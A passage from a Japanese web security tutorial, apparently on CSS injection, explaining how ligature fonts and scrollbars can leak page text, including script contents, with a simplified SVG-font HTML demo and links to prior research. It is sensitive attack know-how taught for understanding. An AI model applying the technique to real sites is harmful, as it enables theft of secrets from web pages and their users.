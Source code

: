 合字とスクロールバーを組み合わせることで、画面上のすべての文字をゆっくりとリークできます。JavaScriptコードでさえも！

スクリプトの内容が画面に表示できることをご存知でしたか？

```css
head, script {
  display: block;
}
```

このCSSを追加すると、スクリプトの内容が画面に表示されるため、同じテクニックを使用してスクリプトの内容を盗むこともできます！

実際には、SVGを他のツールと組み合わせて、サーバー側でフォントを迅速に生成できます。詳細と関連コードを見たい場合は、Michał Bentkowski氏が書いたこの記事を参照してください：[Stealing Data in Great style – How to Use CSS to Attack Web Application.](https://research.securitum.com/stealing-data-in-great-style-how-to-use-css-to-attack-web-application/)

Masato Kinugawa氏は、Safariバージョンのデモも作成しました。SafariはSVGフォントをサポートしているため、サーバーからフォントを生成する必要はありません。元の記事はこちらです：[Data Exfiltration via CSS + SVG Font - PoC (Safari only)](https://github.com/masatokinugawa/css-exfiltration-svg-font/)

ここでは、これが可能であることを示すために、簡略化されたデモを作成します。

```html
<!DOCTYPE html>
<html lang="en">
<body>
  <script>
    var secret = "abc123"
  </script>
  <hr>
  <script>
    var secret2 = "cba321"
  </script>
  <svg>
    <defs>
    <font horiz-adv-x="0">
      <font-face font-family="hack" units-per-em="1000" />
        <glyph unicode='"a' horiz-adv-x="99999" d="M1 0z"/>
      </font>
    </defs>
  </svg>
  <style>
    script {
      display: block;
      font-family:"hack";
      white-space:n owrap;
      overflow-x: auto;
      width: 500px;
      background:lightblue;
    }

    script::-webkit-scrollbar {
      background: blue;
    }

  </style>
</body>
</html>
```

